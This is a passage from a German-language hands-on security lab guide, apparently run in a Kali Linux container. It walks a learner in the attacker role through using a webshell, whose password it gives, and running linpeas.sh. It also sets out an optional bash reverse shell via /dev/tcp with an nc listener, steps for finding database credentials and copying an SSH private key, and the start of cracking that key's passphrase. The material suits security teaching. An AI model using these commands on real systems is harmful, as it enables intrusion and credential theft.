    eingeben. Das Passwort um für die Autorisierung der Webshell ist: "**j~82BQC\;3N<`HK~**".
    
    Sammeln Sie Informationen über den Server, indem Sie die oben genannten **Unix Befehle** verwenden um sich durch das Dateisystem zu navigieren. Die wichtigen Verzeichnisstrukturen ist im Abschnitt **Server Seite,** unter **Allgemeines / Angriff,** des Dateisystems oben beschrieben.
    
    Um die Informationssuche zu automatisieren können Sie das Skript **linpeas.sh** hochladen und ausführen. Sie können das Skript auch über die Webseite hochladen oder die Upload-Funktion der Webshell nutzen. Das Skript befindet sich nach dem Hochladen im selben Verzeichnis, wie die Webshell. Verwenden Sie folgenden Befehl verwenden zum ausführen des Skriptes.
    
    ```bash
    bash ./linpeas.sh
    ```

    ````bash  
    💡 Optional - Reverse Shell: 
    Loggen Sie sich in den Kali Linux Container ein und lassen Sie sich die IP-Adress des Containers mit dem Befehl hostname -i ausgeben. 
    Anschließend können Sie den Befehl nc -lnvp [port] ausführen. Kali Linux lauscht nun auf dem angegebenen Port nach eingehenden Verbindungen. 
    Sende Senden Sie den Befehl 
   
    bash -c "bash -i >& /dev/tcp/[client_ip]/[port] 0>&1"
   
    über die Webshell im Browser an den Server. Der Server baut dadurch eine Verbindung zu einer IP-Adresse auf angebenden Port auf und übergibt der Zieladresse ein Terminal, in dem Fall ein bash Terminal. Im Terminal des Clients sollte, wenn alles funktioniert, eine Verbindung zum Webserver hergestellt worden 
    sein. Nun können Sie statt im Browser über eine Webseite Ihre Anfragen zu stellen, dies in einem Terminal tun. linpeas.sh wird bei Ausführung auf der Reverse Shell 
    koloriert bzw. formatiert angezeigt.
    ````
    
    linpeas.sh gibt Ihnen interessante Informationen, wie Systeminformationen, gefundene Dateien von Relevanz und andere nützliche Informationen wieder (farblich gekennzeichnet, wenn Sie das Skript in einem Terminal ausgeben lassen). 
    
    Suchen Sie in der Ausgabe nach Authentifizierungsinformation für die Datenbank und Schlüssel für eine SSH Verbindung.
    
    Lokalisieren Sie das SSH Verzeichnis, des Eigentümers der Schlüssel und überprüfen Sie die Rechte der Dateien. Kopieren Sie sich den privaten Schlüssel
    
    Öffnen Sie im Kali Linux Container ein Terminal um eine SSH Verbindung zum Webserver herzustellen. 
    
    ```bash
    ssh <username>@<webserver_ip_adress>
    ```
    
    Die SSH Verbindung scheint passwortgeschützt zu sein. 
    
3. **Schritt:** 😈 **(Perspektive: Angreifer/-in)**
    
    In diesem Schritt werden Sie das Passwort des privaten Schlüssels knacken.
    
    Erstellen Sie dafür eine Datei (z.b. <SSH_USERNAME>.id_rsa) im Kali Linux Container und fügen Sie den vom Webserver kopierten Schlüssel in die erstellte Datei ein. Navigieren Sie hierfür in das Homeverzeichnis.
    